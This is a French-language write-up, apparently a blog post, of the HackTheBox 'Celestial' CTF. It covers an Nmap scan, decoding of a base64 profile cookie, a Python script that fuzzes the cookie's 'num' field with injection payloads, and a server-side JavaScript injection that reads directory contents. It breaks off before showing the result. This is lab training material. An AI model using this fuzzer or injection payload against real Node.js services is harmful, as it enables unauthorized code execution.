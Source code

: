# Solution du CTF Celestial de HackTheBox

Back to the root(s)
-------------------

En attendant la venue d'un nouveau CTF basé sur Windows sur [HackTheBox](https://www.hackthebox.eu/), je me suis penché sur différentes machines sous Linux.  

*Celestial* était l'une de celles-ci.  

2 + 2 = 22
----------

J'ai commencé par le classique scan de ports Nmap, ici un peu plus poussé via l'utilisation de plus de scripts :  

```plain
nmap -T5 --script safe -sC -sV -p- -A -oA scan 10.10.10.85
```

La seule chose à retenir c'est la présence du port 3000 ouvert ainsi que de nombreux ports non filtrés, ce qui peut être utile pour la suite :  

```plain
Not shown: 63272 closed ports, 2262 filtered ports
PORT     STATE SERVICE VERSION
3000/tcp open  http    Node.js Express framework
|_http-comments-displayer: Couldn't find any comments.
|_http-date: Wed, 22 Aug 2018 09:49:39 GMT; -4s from local time.
|_http-fetch: Please enter the complete path of the directory to save data in.
| http-headers:
|   X-Powered-By: Express
|   Set-Cookie: profile=eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIifQ%3D%3D; Max-Age=900; Path=/; Expires=Wed, 22 Aug 2018 10:04:44 GMT; HttpOnly
|   Content-Type: text/html; charset=utf-8
|   Content-Length: 12
|   ETag: W/"c-8lfvj2TmiRRvB7K+JPws1w9h6aY"
|   Date: Wed, 22 Aug 2018 09:49:44 GMT
|   Connection: close
```

On voit clairement la mention de *Nodejs*. Au vu du numéro de port peu banal pour un service web j'ai d'abord pensé qu'il s'agissait d'un service de débogage à distance, j'ai donc lancé le module *Metasploit* *multi/misc/nodejs\_v8\_debugger* mais ceci n'a mené nul part, la réponse n'était clairement pas celle attendue par *Metasploit* je faisais fausse route.  

Je pointe donc mon browser sur ce port 3000 et j'obtiens une erreur HTTP. Un reload de la page plus tard et on a le message *Hey Dummy 2 + 2 is 22*.  

Il n'y a que [Javascript pour sortir cela bien sûr](https://gfycat.com/fr/gifs/detail/offensivefarflungbluefish) (oh no! It's retarded!) et c'est indice suffisant pour ce qui va venir.  

Si le message vient après un reload c'est parce qu'un cookie a été défini par le site. On le voit d'ailleurs dans le scan Nmap et il peut se décoder via base64 ce qui nous donne un dictionnaire JSON :  

```python
{
  "username":"Dummy",
  "country":"Idk Probably Somewhere Dumb",
  "city":"Lametown",
  "num":"2"
}
```

Attaquer les valeurs du dictionnaire n'est pas vraiment compliqué pour qui maîtrise bien Python (ou un autre vrai langage de programmation héhéhé).  

On part du même dictionnaire que l'on modifie dans une boucle que l'on sérialise en JSON pour ensuite encoder en base64 la chaîne obtenue transmise alors dans le cookie.  

Ma remière tentative a consisté à bruteforcer le champ *username* sans succès.  

Comme on est en face de Javascript il s'agit probablement d'une faille d'injection de code, auquel cas l'injection est à faire dans le champ *num*

Pour attaquer sans trop de difficultés ce champ j'ai écrit le script suivant, il suffit alors de lui passer un fichier avec les payloads :  

```python
import sys
import json
from urllib.parse import quote
from base64 import b64encode

import requests
from requests.exceptions import RequestException

data = {"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}
KEY = "num"
sess = requests.session()

wordlist = sys.argv[1]
with open(wordlist) as fd:
    for line in fd:
        word = line.strip()
        data["num"] = word

        try:
            raw = json.dumps(data).encode()
        except UnicodeEncodeError:
            continue
        else:
            raw = quote(b64encode(raw))
            try:
                response = sess.get(
                    "http://10.10.10.85:3000/",
                    headers={"cookie": "profile={}".format(raw)}
                )
            except RequestException:
                continue
            else:
                print(response.status_code, word)
                print(response.content)
```

Pour les payloads intéressants on peut se baser [sur cette page](https://ckarande.gitbooks.io/owasp-nodegoat-tutorial/content/tutorial/a1_-_server_side_js_injection.html) et commencer ainsi par l'injection suivante :  

```javascript
;res.end(require('fs').readdirSync('.').toString())
```

Ce qui nous retourne le contenu suivant :  


*Published August 25 2018 at 18 19*
